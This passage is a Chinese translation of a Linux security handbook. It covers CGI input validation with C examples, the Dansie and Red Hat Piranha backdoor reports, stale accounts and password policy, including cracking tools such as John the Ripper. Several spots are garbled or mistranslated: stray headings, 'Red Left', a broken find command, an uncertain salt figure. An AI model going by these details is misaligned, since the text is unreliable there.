甚至有各种产品的文档试图诱使你以 `root` 身份运行 `Apache`。如果你这样做，将会遭到黑客攻击。

## B. 了解你的数据（即由 Web 客户端提供的数据）。

- 为数据输入值和字段长度设定最大值和最小值。

- 确定每个字段可接受的控件。恶意用户会发送控制字符和非 ASCII 字节。预料到黑客会使用 `%` 编码来生成这些有害字符。`%` 编码由一个 `%` 后跟两个十六进制字符组成，这些字符将被映射为等效的 ASCII 字符。除非你阻止他们，否则他们将使用这种方法向你的 CGI 程序发送任意二进制文件。这使得溢出输入缓冲区并直接将机器代码（指令）植入 CGI 程序变得容易。

因此，你需要在 `%` 转换前后检查非法字符。我曾看到这种尝试针对我们的 `sunset` CGI 程序，幸运的是未成功。

- 仔细检查每个输入值。许多购物购物车软件包接受表单中商品的价格形式，并相信用户提交表单中的价格。用户只需修改此表单给自己打折即可。用户利用此漏洞所需的技术非常少。据报道，`Cart32` 版本 `2.5a`、`2.6` 和 `3.0` 存在这种“表单中价格”的漏洞；尽管这个问题在四个月前已广为人知，但供应商选择不修复此问题。

- 如果可能，请枚举允许的值，而不是使用范围。

- 理解即使是恶意的 Web 客户端也可以向你的服务器发送任意字节。黑客可能会复制并修改你的 Web 表单，使得即使你的表单弹出欧盟成员国列表，她也可以提供：

```
crash_with_a_long_name_having_control_characters
```

- 使用安全的语言。客户端提供的数据绝不应直接交给 shell 脚本；黑客获得 shell 或利用缓冲区溢出漏洞的机会太多了。你知道 `bash` 或 `csh` 对缓冲区溢出的反应吗？我也不知道，所以在可能发生缓冲区溢出的情况下，你不要信任它们。

对许多人来说，安全的语言将是 `C`、`Perl` 或 `Python`。如果这些不适合所有情况，请根据每个 CGI 的程序员技能选择用途。`Perl` 不像其具有众多功能以启用更安全的 CGI 程序那样适合。其中包括“污点数据”（tainted data）功能，提醒你创建但未使用的内容的 `-w` 标志，以及 [http://www.cpan.org/doc/manual/strict.html](http://www.cpan.org/doc/manual/strict.html) 中讨论的 `strict` 功能。

使用 `perlsec` 可以实现更多功能，详见 [www.perl.com/CPAN-local/doc/manual/html/pod/perlsec.html](www.perl.com/CPAN-local/doc/manual/html/pod/perlsec.html)。

## C. 分析 CGI 的漏洞。

编写 CGI 程序时，请查看黑客会做什么来破坏它们。使用良好的编程技术检查缓冲区溢出。例如，使用 `C` 时，利用 `fgets()` 例程允许程序员指定已分配的缓冲区大小并且不会溢出。确定行是否大于缓冲区的一个简单方法是看它是否不以换行符结束，如此例所示。

### 七大罪

```c
#include <stdio.h>
#include <string.h>

int c;
char buf[200];

if (!fgets(buf, sizeof buf, stdin))
    error();
else if (!strchr(buf, '\n')) {
    /* Read rest of long line. */
    while ((c = getchar()) != EOF
        && c != '\n');
}
overflow();
```

不要使用 `gets()` 例程，因为它不会对缓冲区溢出进行检查；改用 `fgets`。许多其他流行的 `C` 字符串函数也有类似的弱点。例如，`strcpy()` 函数“允许”你将大缓冲区复制到小缓冲区，覆盖未分配的内存。`strncpy()` 函数是一个很好的替代方案。

```c
strncpy(dest_buf, source_buf, sizeof dest_buf);
dest_buf[sizeof dest_buf - 1] = '\0';
```

要检测问题，一种可能性是：

```c
if (strlen(source_buf) >= sizeof dest_buf)
    error();
else
    strcpy(dest_buf, source_buf);
```

检查转义序列，客户端发出命令的可能性（通过插入空格、引号或分号）；二进制数据，调用其他程序等。通常，拥有一个允许字符列表比尝试确定每个不安全字符更安全。

以下代码可用于处理客户端应提供其姓名的字段。在此示例中，调用进程提供一个以 NUL 结尾的字符串，如果该字符串是合法姓名则返回 0，否则返回 -1。第二个参数指定允许的最大合法字符串，包括结尾的 NUL 字节。请注意，该例程必须小心以确保其缓冲区不会溢出。我选择了清晰的代码，而不是略微更高效的代码。

```c
#include <string.h>

char okname[] = "abcdefghijklmnopqrstuvwxyz"
               "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
/* Return 0 on legal names, -1 otherwise. */
legal(char *name, int maxlen) {
    if (!name || !*name
    || strlen(name) >= maxlen)
        return -1;
    while (*name)
        if (!strchr(okname, *name++))
            return -1;

    return 0;
}
```

许多与 Linux Web 服务器相关的系统入侵是通过不安全的 CGI 发生的。只需一个有漏洞的 CGI，大多数系统就会被攻破。

## D. 在 CGI 中实施“安全圈层”。

尝试设计你的应用程序，使得即使发现漏洞，系统也能免受重大损害。一种解决方案是让 CGI 仅仅是运行在不同机器上的坚固编写服务器的前端。内核必须跨越的障碍越多，他跌倒的可能性就越大。

考虑在 WireX 中使用 SubDomain 内核模块。它允许基于内核的访问控制列表按程序级别添加额外限制，限制任何特定程序可能执行的操作。它可以防止许多最近的安全漏洞，如 `named` 漏洞和 Dansie “失败”，两者均在本书其他部分讨论。其对象仅约 24 KB 且易于安装；WireX 在免费使用方面很大方。其开发者之前开发了 StackGuard。可在 [www.wirex.com/subdomain.html](www.wirex.com/subdomain.html) 获取。

## E. 关注第三方提供的 CGI 的漏洞报告并检查其代码。

如果使用第三方提供的 CGI 脚本（如购物车），请订阅其邮件列表并关注安全公告。如果可能，获取源代码并进行审查。如果你不知道该语言，请找懂的人审查它。

2000 年春天，Joe Harris 在 Bugtraq 上发布了一则信息，声称一款流行的基于 Perl 的购物车程序 Dansie 有一个后门。Harris 声称这个后门允许任何知道秘密表单名称（服务器系统上的 URL）的人以运行购物车软件的用户身份执行任何 Linux 命令。Dansie 否认后门的存在，但有些人——

### 七大致命罪过

也有人声称见过此问题，该问题于 2000 年 4 月 13 日在互联网新闻中被提及。

没有客户对存在后门这一说法提出质疑，且在此事件公开后不久，Dansie 的电话就被切断了。我不确定 Dansie 的否认是否属实，因为第二位涉嫌用户确认了该问题，且没有关于 Dansie 否认后门的报道；Dansie 对我在网络新闻报道后发给该公司的邮件给出了模糊的回应：“检查源代码。” 引用在一篇关于 Dansie 问题的文章中，称这摧毁了他对该产品的信心。

但 Dansie 在这方面远不如红帽公司厉害（原文：But Dansie ain't got (sic) nothing on Red Hat）。2000 年 4 月 25 日，据报道 Red Left（注：此处原文 Red Left 疑为 Red Hat 之误或特定语境用词，依原文翻译）在其 Piranha 线程中留下了一个未记录在案的后门，任何知道的人都可以以运行该产品的任何用户身份在服务器上执行任意命令。这个无意的 bug 存在于 `piranha-gui` 的 `0.4.12` 版本中。补丁已发布。


许多购物车软件包和 CGI，无论是商业的还是开源的，都存在安全漏洞，这些漏洞在黑客（cracker）社区中广为人知。我们定期看到我们的站点被探测这些漏洞，甚至我们并不在线处理资金。

许多这样的程序以 `root` 权限运行。一旦在系统中找到 `root`，黑客（cracker）便不远了，他们正在探测弱点。许多运行 `set-UID` 为 `root`（或由 `root` 调用）的程序并不需要这样做。

通常这些程序需要设置 `set-UID` 为某个用户，以便访问那些本不该被 Web 访问的数据。解决方案是创建一个新用户，该用户没有其他用途或访问权限。然后这些程序设置为 `set-UID` 到该新用户。不同的程序可能需要设置为 `set-UID` 到不同的用户，以保护它们彼此之间的安全。

避免将用户的敏感数据（如信用卡号、财务详情、邮寄地址和电话号码等）存储在与 Web 服务器相同的机器上。这种分离将迫使黑客必须攻破两个系统而不是一个才能获得这些数据。

通常，这是通过 CGI 程序的参数来实现的，例如：

```
http://www.abroger.com/cgi-bin/address_change?account=666
?passwd=secret&addr=1+Maple&St.&phone=555-1212
```

管理着 9000 亿美元客户资金的富达投资（Fidelity Investments），并未遵循此建议。2002 年 5 月，据报道，通过更改显示其报表页面的 URL 中的数字——一个三位数——某客户看到了其他客户的报表。

问题在于，如果用户点击结果页面上显示的链接，这些信息将显示为“引用 URL”。因此，这些敏感信息将被提供给完全陌生的人（链接指向的网站）。在 2000 年代初，几家知名公司因这一 URL 问题而丑闻缠身，其中一些受到了当局的调查。

某些浏览器可能会在历史文件中存储此 URL（包含机密数据）。如果有人从公共终端浏览，如学校或图书馆，你可能因疏忽处理该人的数据而承担责任。Cookie 也存在类似问题。

- 务必确保用户在表单上提供的敏感数据不会成为下一个“拉下”该表单并看到的人的默认数据。
- 是的，这种情况确实发生过。
- 始终保护输入其密码的用户。
- 在输入此信息之前，将他带到一个安全区域。这将降低密码被盗的可能性。通常，这个受保护的区域将是 `https`（`SSL` 封装的 `http`），以加密他的密码，防止网络嗅探。

### 2.2.5 资源不足与优先次序错位（#5）

在许多组织中，管理层 simply 不愿意为系统管理员（SysAdmin）提供足够的资源以确保良好的安全性。良好的安全不是偶然发生的。实现真正全面的安全解决方案需要许多要素。教育、设计、正确的实施、用户培训、维护以及持续的警惕，都是组织系统安全所必需的。当安全得不到组织的支持（即资金）时，它通常局限于系统管理员自愿在业余时间做的事情。如果他不愿意花时间，他肯定会为任何违规事件承担责任。这个致命罪过使系统管理员处于并非由其直接负责的问题中心。换句话说，管理层不允许他做出实现良好安全和良好业务所必需的变更。

这可能不是一个“技术”问题，但我发现它是众多组织发生入侵的原因。令人悲哀的是，我的大多数客户只有在他们遭受了重大且昂贵的入侵后才来找我。我宁愿帮助人们维护良好的安全，而不是进行痛苦且昂贵的修复。

资源不足是由于优先次序错位。“我们没有被入侵，媒体夸大了每一项危险，远超真正的风险。”这是那些未被入侵的组织普遍持有的信念。我特意在书中穿插了入侵案例，希望能在某处的管理层中留下印象。考虑送给你的老板布鲁斯·施奈尔（Bruce Schneider）出色的著作*《秘密与谎言：联网世界中的数字安全》*（Secrets and Lies: Digital Security in a Networked World）作为礼物。*《秘密与谎言》*面向管理层，是本好书的好伴侣。其中一些例子与本书相同，两本书是同时写成的，它们揭示了常见的谬误。

偶尔，我警告客户关于重大的安全问题，但他们却决定安全不如发布那个版本或进行非安全的计算机改进重要。后来，他们认识到悲惨的现实——从安全漏洞中恢复的成本通常比在入侵前实施安全的成本低十倍的代价要高得多——然后他们必须花钱实施安全。“十倍成本”这个数字仅代表直接成本。它没有考虑到市场机会、延迟的产品、听到安全漏洞消息后转投他处的客户损失，以及无法访问您的站点和电子邮件期间客户和员工的成本。它也没有考虑到失去投资者或其他因负面宣传造成的后果，更不用说对 IT 专业人员职业生涯造成的损害。

如何解决资源不足和优先次序错位？在一个工作会话中花一两个小时进行一个臭鼬工程（skunk works project）。[^12] 演示 `Linux` 防火墙、`Web` 服务器或 `VPN`。更新 `Linux` 软件、使用 `SSH` 和 `GPG`、破解大多数密码或攻击 `Wi-Fi` 无线网络有多容易。使用 `nmap` 加 `-O` 标志从家用系统扫描你的网络，展示你的网络看起来如何。在防火墙外（如果有）安装 `Snort` 和 `Portentry`，展示你的网络受到多少攻击。

与同事交谈，寻找问题案例并将它们传达给你的管理层。让一位优秀的顾问或其他可信的外部来源对贵公司进行安全审计并建议改进。永不放弃。永不投降。[^13] 屈服会导致拖延，最终导致系统被侵入。那是原力的黑暗面。指向原力是主要问题之上的流行游戏。（注：此句原文表达较为混乱，疑为比喻，依字面及上下文意译）

优先次序错位也可能意味着因为“我们是微软商店”而使用微软，忽视了它可能没有足够的服务器安全性来应对来自互联网的访问。

微软公司副总裁[^8]最近在美国联邦法院作证称，与竞争对手分享漏洞信息可能会损害国家安全，甚至威胁美国在阿富汗的战争努力。他后来承认，某些微软代码如此有缺陷，以至于无法安全地公开。

这些令人惊讶的陈述和坦率的承认是吉姆·阿尔钦（Jim Alchin）在法官考勒-科特利（Kollar-Kotelly）面前为期两天的证词中的一部分，法官正在审理九个州和哥伦比亚特区寻求对微软非法反竞争行为施加更严格处罚的案件。

[^12]: 臭鼬工程项目（skunk works project）是指在未经管理层批准或知情下完成的项目。它作为试点项目进行，以证明工程师认为非常重要但管理层不愿资助的某事物的可行性。在演示了工作的原型后，通常可以获得资金。我们通过这种方式启动了许多重要项目。“臭鼬工程”一词来自洛克希德精英设计小组，该小组在完全保密的情况下设计了 U-2、SR-71 和其他高度机密的飞机。这个精英设计小组由传奇人物凯利·约翰逊（Kelley Johnson）领导了多年。

[^13]: 感谢“星系任务”（Galaxy Quest）。Wiehoff

Allchin，微软平台集团副总裁，是最后一位为华盛顿州雷德蒙德（Redmond）的软件开发商辩护的高管。正如公司主席兼首席软件架构师比尔·盖茨在证词中所述，Allchin 强调了非和解客户所寻求的技术信息披露可能带来的安全问题。

Allchin 在证词中说道：“说国家安全也受到了黑客试图入侵计算机网络行为的威胁，这并不夸张。包括许多运行 Windows 操作系统的计算机在内，被美国国防部以及驻扎在阿富汗及其他地区的美国军队广泛使用。”

这是你愿意将组织的使命和自己的职业生涯托付给它的软件吗？

2002 年 5 月，Mitre 公司为美国军事总部进行的一项研究建议扩大开源计算的使用，因为其受网络攻击的脆弱性较低，且成本低得多。美国、加拿大、德国、法国、西班牙、中国和新加坡的军事和情报机构都在使用 `Linux`。美国国家安全局（NSA）甚至提供了其自身符合 C2 标准的 Secure `Linux` 版本：www.nsa.gov/selinux

芬兰、中国、秘鲁、菲律宾、韩国、墨西哥、德国以及华盛顿州的雷德蒙德市等政府也认为 `Linux` 最能满足其需求。与大多数商业软件不同，开源软件的代码受益于由致力于使其达到最佳状态的大量程序员社区进行的持续审查和改进，而不是尽可能快速、廉价地将其“推向市场”。

a. 报告发布于 2002 年 5 月 13 日，见 www.eweek.com/print_article/0,3668,a=26875.00。此处的部分信息源自美联社（AP）2002 年 5 月 30 日题为《Linux 在政府系统中增长》的报道，该报道发布在 Yahoo 上。

## 2.2.6 过期和不必要的账户（#6）

如前所述，每个账户都是系统的一个潜在入口。想象一下，你意识到你的系统已被入侵，你必须立即向每个人发送消息，要求他们更改密码。

当用户不再使用系统时，务必将其账户从系统中移除。

过期账户的密码不会被更改，从而留下一个漏洞。如果拥有需要重新分配的数据，请通过在 `/etc/passwd` 文件中该用户的密码字段中填入 “*” 或 “!” 来禁用其账户。这将禁用通过该账户的登录，因为没有密码能对这几个值进行加密，而 shadow 密码代码理解这些序列。应尽快清理。确保没有 `set-UID` 或 `set-GID` 程序，也没有包含机密数据的公共可读或可写文件仍由该账户所有。

执行以下操作

```
chmod 0 /home/someone
find /user someone -ls
```

这是一个良好的开始。请注意，用户可能拥有邮箱、邮件列表条目、打印队列目录中的文件以及各种应用程序中的账户等，这些都需要处理。


请注意，你移除的一些服务（在修正先前错误时）在`/etc/passwd`文件中仍有账户。当移除该服务时，确保`/etc/passwd`中的账户也被移除或禁用。一些显著的服务包括 FTP、NFS、uucp、mail、gopher 和 news。如果不需要它们，请将其移除。

在许多入侵报告中，系统管理员表示，“我本打算安装...TCP Wrappers...更新版本的...防火墙...本打算关闭 NFS... 显然，至少模糊地知道必须做什么，直到为时已晚。确实，你承担的责任多于时间，但请考虑每周预留两小时来升级安全。

本书的组织方式使其可以用作练习册，首先讨论最紧急和根本的问题。这允许你插入一个书签，每隔几天推进一次。

## 2.3 密码——良好安全的关键点


良好的密码和良好的密码策略对于任何计算机的安全都至关重要。其中一些内容对有经验的系统管理员来说可能并不陌生，但每个人有时都会忙不过来，所以现在是回顾这些问题并进行必要更改的好时机。甚至作者的系统也需要进行密码“调优”。建议提醒用户不要让别人知道他们的密码或看到他们输入密码。解释他们不应该告诉配偶、老板，甚至是什么密码正在被使用。

要求每个人如果有人试图获取密码，或者如果有人可能已经获取了密码，向你报告。解释你只关心安全，并且他们在问题报告中的姓名将保持机密。

### 2.3.1 避免弱密码和默认密码

> 危险等级

某些 Linux 发行版未为某些系统账户设置密码，尽管现代流行的发行版似乎没有这个问题。不过，你肯定需要通过检查文本文件`/etc/passwd`和`/etc/shadow`来验证。`/etc/passwd`的第二个冒号分隔字段应包含“！”或“*”，表示正在使用 shadow 密码。类似地，`/etc/shadow`的第二个字段应包含加密密码或上述序列之一。

不幸的是，常常使用（并允许）不可用的密码，这实际上消除了所有安全性。由于密码的概念是仅由被允许使用账户的人员所知道的一系列字符，因此密码应难以被知道它的人或陌生人猜测。大多数 Linux 系统上的`ispell`字典使破解弱密码变得很容易。提供单词列表的网站也是如此，例如各种 crater 站点和`ftp://ftp.zedz.net/pub/crypto/wordlists/`

大多数发行版现在提供 shadow 密码，仅保存在只有 root 可读的`/etc/shadow`文件中。这防止了破解者将全球可读的`/etc/passwd`复制到其系统上并运行如`John the Ripper`等密码破解程序。大多数发行版标准提供`pwconv`和`grepshadow`实用工具，将非 shadow 密码转换为 shadow 密码。

- 应认为使用 shadow 密码是强制性的。

a. `John the Ripper`可以破解 DES、双重 DES、MD5 和其他常见哈希。因为破解者会这样做，你也应该拥有它，看看你的密码是否容易被破解。它位于 CDROM 上（但在网站上没有），可在以下地址获取：`www.openwall.com/john/`

有替代密钥密码的方法，它们有一些优点，当与密钥密码结合使用时更加强大。这些包括智能卡等和生物识别。生物识别是测量物理特征的设备，例如手指长度或指纹。视网膜扫描仪尚未便宜到可以广泛使用。有些人是单次密码的粉丝。


在我担任咨询顾问的一家公司，政策是为所有新员工的账户使用标准密码，这些账户用于预订客户订单，我发现系统中 400 个账户中有一半仍使用该默认密码。

当我（系统管理员）向这些人发送电子邮件要求他们更改密码，并发送后续电子邮件威胁禁用未更改密码者的账户时，我几乎因“干扰用户工作”而被解雇。即使大规模裁员开始时，这一政策仍在继续。幸运的是，没有发生安全违规。

好吧，至少我创建的这些新账户每个都有不同的初始密码，因此这些账户是安全的。密码套件提供密码老化功能来处理此问题及其他问题。

密码不应是姓名或其他他人会将之与本人联系起来的一系列字符。以下是易于猜测的、不应使用的密码列表：

- 账户或计算机本身的名称（是的，有些人这样做）
- 单词“password”或某种变体（我最近见过）
- 与账户相关或包含账户名称本身的参考，例如 root 账户的 root、p0wer、wheel 或类似项
- 任何关于星际迷航（Star Trek）、星球大战（Star Wars）、神秘博士（Dr. Who）或游戏的参考；我们都熟悉这些
- 账户名称的任何部分、姓名首字母、家人或配偶、宠物、车辆类型、飞机或船只细节、爱好或消遣、反派、车牌或车辆识别码、电话号码、生日、纪念日、邮政地址、电子邮件地址、社会保障（政府身份）号码
- 对你的雇主或同事的参考
- 出现在你的网站上的任何内容
- 最喜欢的食物、饮料或其他可猜测的个人信息
- 与你的母校相关的参考
- 性取向（可能有人知道）
- 信仰
- 科学、体育或政治中众所周知的单词或姓名，例如爱因斯坦（Einstein）、勇士队（Braves）或戈尔（Gore）
- 众所周知的名字、地点、事件、想法或短语
- 字典中的任何单词或单词对，包括外国的
- 重复的相同字符或明显的序列，例如 abcde、edcba 或 qwerty
- 示例中使用的密码，例如 secret 和 xxyzzy
- 上述任何一项，通过用数字“0”替换字母“o”、用数字“1”替换字母“I”、用“8”替换“ate”进行“巧妙”替换。破解者会例行做此事；他们会找出你的使用。
- 上述任何一项反向拼写或各种大写字母

简而言之，不要使用任何别人知道你可能知道的密码，也不要使用可能被破解者猜到密码（例如来自科幻小说、计算机技术或常见食物的词汇）。

英国伦敦城市大学（City University in London, England）的 Helen Petrie 的一项研究证实，大多数密码都基于易于猜测的内容。其中约 50% 源自家庭成员、重要他人或宠物的名字，30% 使用了娱乐或体育界名人。描述幻想的词汇（通常为性幻想）占 10%。只有 10% 使用了晦涩难懂的组合；这些密码很难被破解。这一研究于 2002 年 3 月 13 日在 cnn.com 上报道。我对密码选择的建议（自本书第一版以来无需修改）早于这项研究两年。

密码还必须通过我所说的“汤普森测试”（The Thompson Test）。这意味着它不符合以下任何密码“破解”算法：

- 一至六个 ASCII 字符
- 七个或八个全小写字母
- 大型字典（如以下文件）中的任何单词：
    - `/usr/lib/ispell/ispell.words`
    - `/usr/share/dict/linus.words`
    - `/usr/games/lib/hangman-words`
- 或者是一个倒拼的单词，或者是用数字“1”代替字母“I”、用数字“0”代替字母“o”、用数字“3”代替字母“E”的单词。
- 大型字典中的任何单词对，或者是倒拼的单词。

我检查了汤普森测试，因为肯·汤普森（Ken Thompson）出于研究目的，使用这些算法来查看他能破解多少密码。他使用了伯克利大学科里大厅（Berkeley’s Cory Hall）系统的`/etc/passwd`文件，因为当时它是用户数量最多的系统。

他破解了 1000 个密码中的 996 个。在那四个未被破解的密码中，包含了 root 用户的密码和我（作者）的密码。我收到了肯发来的正式请求，希望获取我的密码，以便他理解为什么这些算法未能破解。

这些使用数字的字典单词变体并非肯·汤普森测试的一部分，但它们都是破解者社区中常见的猜测。参见 Robert Morris 和 Ken Thompson 于 1986 年出版的《Password Security: A Case History》。

## 密码——良好安全性的关键点

天哪，这似乎只剩下像 KH*^&)g# 这样同样难以记忆的密码了。请选择两个或三个不相关的单词，加入至少两个非字母数字字符（如标点符号或控制字符），并将单词中除每个单词首字母以外的一个或多个字母大写。

Linux 和 UNIX 账户密码中还有一个附加变体，称为盐值（salt）。这意味着每当为账户创建密码时，都会生成两个随机字符（称为盐值），并在加密前添加到密码中，以增加额外的排列组合。当密码存储在`/etc/passwd`或`/etc/shadow`中时，这两个盐值会加在加密密码的前面。

使用盐值的原因是，即使两个用户在系统上使用了相同的密码，或者同一个用户在不同的系统上使用了相同的密码，每个用户的加密密码也是不同的。其目的是防止大规模破解密码。在引入盐值技术之前，破解者只需生成例如字典中每个单词的加密密码，并将其与`/etc/passwd`中每个用户的加密密码进行比对。因此，如果有 100 个账户，破解者只需从字典中加密该密码一次即可。


然而，由于这 100 个用户中每个都有独特的盐值，这种方法不再有效。对于每个破解者而言，必须从 `/etc/passwd` 或 `/etc/shadow` 中提取盐值，将其添加到字典中，进行加密，并与该用户的加密密码进行比对。因此，破解者所需的努力程度会乘以账户数量，在本例中为 100。

以下是一些良好密码的示例。在每种情况下，混合使用小写字母，并将除首字母外的其他字母大写，例如：

- `vote\z0r0`

其他策略包括：

- 取一个晦涩短语中每个单词的第一个或第二个字母

- 从一个类别（如科幻小说）中选取一个不寻常的单词，并从另一个不相关的类别（如政治）中选取一个不寻常且不相关的单词。不，`phaser->Gore` 或 `phaser->Bush` 不是好的密码。

- 你初恋的名字和你的第一台计算机的名字（如果它们不同的话）

- 一个不常见的音乐团体或歌曲，以及你母亲的生日（你兄弟的生日不合适，因为他可能知道你的音乐喜好；母亲通常不会知道）

- 一个旧的电话号码或街道地址，以及很久以前室友的姓氏或特征

- 环顾你的书架和办公室，寻找不相关的名称以组合起来

密码也应该是可以记忆的，因此无需写下来。密码不应写下来，尤其是在终端附近或有人可能知道查找地点的纸张上。除非它们以适当加密的形式存在，否则应存储在计算机或磁介质/光介质上。

用于高安全性应用程序的密码也不应用于低安全性应用程序，也不应与其他不相关的高安全性应用程序共享。高安全性应用程序是指处理资金或高度机密信息的地方，例如在线银行或电子商务，以及政府、公司或医疗机密信息。低安全性应用程序是指密码可能无法保持机密或可能被嗅探的地方，例如在线公共服务注册、聊天室、通过不安全线路的 `telnet`、访问公共终端等。

原因是低安全性应用程序不可信赖。虽然其中一些可能保持良好安全，但有些可能不会。毕竟，“这只是一个聊天室”。因此，你可能会向不可信赖的人泄露足够的高安全性密码信息，从而危及你的高安全性应用程序。同样，不同的高安全性应用程序应使用不相关的密码。

> 即使“办公室里的信息”非常机密，你希望嗅探公司网络的破解者发现你的银行密码或亚马逊密码吗？在不可信的网络（如互联网）上进行 TCP 会话时，无论连接的是否为公司网络，都应使用 `SSH`。

如果任由用户自行选择，许多用户会挑选弱密码。有三种解决方案：

1. 为用户挑选密码。他们不会喜欢这种做法。

2. 频繁运行密码破解器，并要求那些密码被破解的用户更改密码。`John the Ripper` 受到系统管理员（SysAdmins）和破解者的极高评价。如果它无法破解某个密码，大多数破解工具也无法破解。

3. 在用户尝试使用 `passwd` 更改密码时检查密码。一个极好的解决方案是使用 `cracklib` 库并从 `passwd` 程序中调用它。（至少从 Red Hat 6.0 开始，这是默认行为。）`cracklib` 是一个了解 Crack 用于破解密码的算法的库，它测试提供的密码是否易受攻击；它实际上没有破解密码的代码，因此在系统中安装它不会带来安全风险。具备 `PAM` 支持的 `passwd` 版本（这是 Red Hat 和其他发行版的标准配置）已经内置了这种功能。这在第 21 页的“七大死罪”中有所讨论。

## 2.4 高级密码技术

这里讨论了一些高级密码技术。这些技术对于抵御可能“非常努力”地试图破解你密码的顽固破解者至关重要。如果未使用这些技术，即使你的所有账户都使用了最好的密码，你仍处于风险之中。这是因为现代计算机可以在几天内破解存储在 `/etc/passwd` 中的 `DES` 密码。几乎所有流行的发行版都支持这些高级技术，但它们可能默认未启用。

### 2.4.1 用于良好安全的影子 MD5 密码

| 危险等级 | 💀 💀 💀 💀 💀 |

如前所述，如果破解者设法看到你的加密密码，破解它们就会变得容易得多。因此，现代 Linux（和 UNIX）系统提供影子密码（shadowed passwords）。密码不是存储在所有人可读的 `/etc/passwd` 中，而是仅存储在 `/etc/shadow` 中。该文件仅 root 用户可读写。至少从版本 3.4 开始，Slack 就默认使用影子密码。现在所有主要发行版都自动使用影子密码。

通常，经过转换的密码是 `DES` 或 `MD5` 算法的结果，被称为“加密”，因为查看它的人不知道原始密码是什么。准确地说，“加密”意味着可以使用非暴力方法从该结果确定原始短语。

`DES` 或 `MD5` 算法用于转换用户输入的密码，正确存储在磁盘上的结果称为哈希值（hash）。类似于编译器和数据库中使用的哈希值，它是一种单向算法。这阻止了他人轻松确定原始密码，但如果某人随后输入“明文”密码，系统可以对该明文运行算法，并查看其结果是否产生相同的哈希值。如果结果一致，则该人输入了正确的密码。

Linux 和 UNIX 的另一个附加功能是提供 `MD5` 密码“加密”（哈希值）。`MD5` 密码解决了 `DES` 密码的弱点。`DES` 密码限制为 8 个有效字符，且仅使用 56 位加密，这在现代计算机中很容易破解。`DES` 还使用 4096 种不同的盐值可能性；`MD5` 使用 2^54（注：原文此处表述可能存在OCR歧义，通常指代MD5的盐值空间远大于DES，此处按常见技术文献逻辑保留为较大数量级描述，或依据原文语境理解为显著增加的可能性）。盐值使得两个不同用户（或同一用户在两个不同系统上）即使输入相同密码，其哈希后的密码也不同。这防止了破解者对常见密码列表进行哈希并简单地与每个用户的哈希密码进行比对。盐值在第 36 页的“避免弱密码和默认密码”中也有讨论。

某些系统上可用的“双重 DES”哈希实际上比标准 `DES` 哈希安全性更低。`MD5` 是一种复杂得多的算法，哈希密码所需的 CPU 时间是 `DES` 的 20 倍。虽然破解者可能能够...

如果能在两天内破解你所有基于 `DES` 的密码，那么即使他能获取你的 `MD5` 密码，破解它们可能也需要 40 天；他更可能会转而攻击别人。`MD5` 允许密码中包含无限数量的有效字符，从而为用户选择密码提供了更大的灵活性。

影子式 `MD5` 密码比非影子式或 `DES` 密码更难被破解；为了获得良好的安全性，将其转换为影子式 `MD5` 密码至关重要。

### 2.4.2 重新提示输入密码

比入侵者接管用户账户更糟糕的事情是允许他们长期“保留”该账户。这就是为什么在密码提示中，系统在接受请求者提供的*新*密码之前，会先提示用户输入*旧*密码的原因。

因此，如果是一个入侵者试图更改密码（例如在用户外出散步期间），在他无法访问系统直到用户返回或终端因不活动而被锁定。不活动定时器应设置得较短，通常为 2–10 分钟。另一种适用于基于 `X` 的程序的技术是利用 `X` 的安全键盘功能，程序可以使用该功能确保在用户键入机密数据（如密码和信用卡号）时，程序对键盘拥有排他性的读取访问权限。（当然，入侵者可以创建一个 `set-UID` shell，但在通过另一个账户“进入”系统之前，他无法访问它。）

这将入侵者的访问权限限制在很短的时间内。为什么你应该选择这样做？尽管“用户”已经登录，但理解提示输入密码的这一原因很重要。

Web 服务器和普通应用程序都会请求密码。如果有人悄悄来到你的终端并订购拥有最新曲目的 CD，这些 CD 最终会寄送到你的地址，并且电子邮件通知（用于停止订单）将发送到你的邮箱。入侵者可能能够删除你的电子邮件，但可能没有你公寓的钥匙，因此你将能够退还商品以获得退款。

注重安全的网站会要求你在那个用于更改或访问关键用户数据（如收货地址或账单地址、信用卡号、电子邮件地址或电话号码）的表单中输入密码。它们将使用 `https` 来保护所有机密数据，特别是密码和信用卡号。请确保你的浏览器正在指示 `SSL` 被使用。近期版本的 `Netscape 4.*` 通过显示一个闭合的挂锁图标来指示这一点。

昨晚我使用了一个网站，该网站费了一番周折让我通过一系列繁琐的步骤设置我的账户并选择我的密码。当我订购商品时，我注意到它使用的是 `http` 而不是 `https` 来接收我的密码。因此，第二次传输时，我的密码以明文形式发送，容易被嗅探到。我们本应知道得更多。我选择不提及该网站，因为它是一个开展工作的非营利组织。

这些网站还应发送电子邮件通知，说明哪些项目已更改，例如“根据您的要求，我们更改了您的信用卡号”，但在电子邮件中不实际包含新的信用卡号，以防有人（可能通过嗅探）阅读了该电子邮件。如果电子邮件地址已更改，包含新电子邮件地址的通知也应发送到旧电子邮件地址。

大多数金融机构和投资公司遵循类似的程序处理邮政地址。他们会向旧地址寄出一封信，宣布记录地址已更改为新地址。如果信件因无法投递而被退回，地址变更可能是合法的。如果公司收到来自投资者的惊讶或愤怒的信件，可能已防止了盗窃。

这是为了防止罪犯首先将账户地址更改为罪犯的邮政信箱，然后继续通过寄送到这个新地址的支票来关闭账户。所有者可能几个月都未注意到这种盗窃，因为他从未看到这份对账单，而且在正常的邮件洪流中也不觉得缺失了什么。

你需要确保你的 Web 应用程序遵循这些良好实践。你可能不想与那些不使用 `https` 来保护机密数据或做其他愚蠢行为来危及你信用卡的网站做生意。记住，如果发生欺诈，必须与你信用卡打交道的是你，而不是网站。


在许多应用程序中，客户服务人员必须在登录他们的 Linux 账户之后“登录”应用程序。这个应用程序账户和密码通常独立于 Linux 账户，并且特定的应用程序账户可以从任何 Linux 账户启动。至关重要的是，用于更改应用程序密码和其他关键信息的应用程序流程应与你在 Web 站点和更改 Linux 密码时考虑的流程一致。

### 2.4.3 密码应该老化吗？

许多系统管理员通过强制用户定期更改密码（密码老化）来获得一种错误的安全感。一个精心挑选的密码可以长期使用，因为用户可以记住它而不需要写下来。强迫用户放弃一个精心选择的密码可能会令人沮丧，并导致用户故意选择一个不太安全、更容易被猜到的密码。强迫用户每 12 个月想出新的密码，随着每次迭代，通常会导致使用不太安全的密码，并且它们被写在不安全地方的可能性增加。

